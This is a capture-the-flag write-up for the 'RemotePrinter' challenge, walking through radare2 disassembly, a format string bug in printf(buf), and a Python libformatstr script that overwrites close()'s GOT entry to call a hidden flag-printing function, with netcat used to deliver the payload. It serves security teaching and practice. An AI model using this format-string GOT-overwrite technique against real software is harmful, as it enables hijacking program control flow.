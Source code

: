 ### Solved by barrebas and superkojiman

This was a relatively easy one that barrebas and I solved at the same time. Let's examine the vulnerability first. We're given a binary called RemotePrinter. Running it prompts us for an IP address and a port to connect to, after which it waits to receive data from the "printer". We can simulate the printer using netcat and send back some data. In this case, we found that it was vulnerable to a format string attack:

```
# ./RemotePrinter 
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:6666
Thank you, I'm trying to print 127.0.0.1:6666 now!
AAAA.0xffa7179c.0x2000.(nil).(nil).(nil).(nil).0x41414141.0x2e70252e.0x252e7025.0x70252e70
```

It's clear that our format string can be found at offset 7. The simple solution was to overwrite a function's GOT pointer with one that we wanted. A closer examination of the binary revealed a file called "flag.txt" in the string dump:

```
[0x08048ad0]> iz
.
.
.
vaddr=0x080489de paddr=0x000009de ordinal=008 sz=9 len=8 section=.rodata type=ascii string=flag.txt
vaddr=0x080489e7 paddr=0x000009e7 ordinal=009 sz=15 len=14 section=.rodata type=ascii string=YAY, FLAG: %s\n
```

Where's this being referenced from?

```
[0x00000000]> axt 0x080489de
data 0x8048875 push str.flag.txt in unknown function
```

Some function that wasn't being called by anything. Digging deeper:

```
[0x00000000]> pd@0x8048875
            0x08048875      68de890408     push str.flag.txt           ; "flag.txt" @ 0x80489de
            0x0804887a      e8e1fcffff     call sym.imp.fopen
            0x0804887f      83c410         add esp, 0x10
            0x08048882      8945f4         mov dword [ebp - 0xc], eax
            0x08048885      83ec04         sub esp, 4
            0x08048888      ff75f4         push dword [ebp - 0xc]
            0x0804888b      6a32           push 0x32                   ; '2'
            0x0804888d      8d45c2         lea eax, [ebp - 0x3e]
            0x08048890      50             push eax
            0x08048891      e85afcffff     call sym.imp.fgets
            0x08048896      83c410         add esp, 0x10
            0x08048899      83ec0c         sub esp, 0xc
            0x0804889c      ff75f4         push dword [ebp - 0xc]
            0x0804889f      e85cfcffff     call sym.imp.fclose
            0x080488a4      83c410         add esp, 0x10
            0x080488a7      83ec08         sub esp, 8
            0x080488aa      8d45c2         lea eax, [ebp - 0x3e]
            0x080488ad      50             push eax
            0x080488ae      68e7890408     push str.YAY__FLAG:__s_n    ; "YAY, FLAG: %s." @ 0x80489e7
            0x080488b3      e828fcffff     call sym.imp.printf
            0x080488b8      83c410         add esp, 0x10
            0x080488bb      90             nop
            0x080488bc      c9             leave
            0x080488bd      c3             ret
```

The summarize the above function. Basically this function opens "flag.txt", reads the contents, and prints it back out to stdout. We can find where the function starts by subtracting some bytes from 0x808875 and looking for the function prologue:

```
[0x00000200]> pd -10@0x8048875
|           0x0804885c      e85ffdffff     call sym.imp.close
|           0x08048861      83c410         add esp, 0x10
|           0x08048864      90             nop
|           ; JMP XREF from 0x08048842 (fcn.08048786)
|           ; JMP XREF from 0x08048813 (fcn.08048786)
|           ; JMP XREF from 0x080487b9 (fcn.08048786)
|           0x08048865      c9             leave
\           0x08048866      c3             ret
            0x08048867      55             push ebp
            0x08048868      89e5           mov ebp, esp
            0x0804886a      83ec48         sub esp, 0x48
            0x0804886d      83ec08         sub esp, 8
            0x08048870      68dc890408     push 0x80489dc
```

There it is, 0x08048867. Now the format string bug occurs after it receives data from the printer, and calls printf() on it. This happens here: 

```
|    |||    0x0804884d      50             push eax                     ; buf
|    |||    0x0804884e      e88dfcffff     call sym.imp.printf          ; printf(buf)
|    |||    0x08048853      83c410         add esp, 0x10
|    |||    0x08048856      83ec0c         sub esp, 0xc
|    |||    0x08048859      ff75f4         push dword [ebp - 0xc]
|    |||    0x0804885c      e85ffdffff     call sym.imp.close           ; close()
```

Since close() is called right after printf(), it was a good candidate for overwriting. The goal was to overwrite close()'s GOT pointer to point to 0x08048867, which would print out the flag. 


#### superkojiman's solution
I accomplished this with [libformatstr](https://github.com/hellman/libformatstr): 

```python
#!/usr/bin/env python

from libformatstr import *

win_addr = 0x8048867
close_got = 0x08049c80

p = FormatStr(100)
p[close_got] = win_addr

buf = ""
buf += p.payload(7)
open("in.txt", "w").write(buf)
```

This creates a file with the payload necessary to do the overwrite. I ran a netcat instance on my VPS that would feed this payload to RemotePrinter.

```
root@vps:~# nc -lvp 6666 < in.txt
listening on [any] 6666 ...
```

I then connected to it from the CTF's RemotePrinter: 

```
# nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:192.99.xxx.xxxx
Enter port:6666
Thank you, I'm trying to print 192.99.xxx.xxx:6666 now!
.
.
.
  AAA������������������������������������������������������������������YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
``` 

Win! The flag is IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
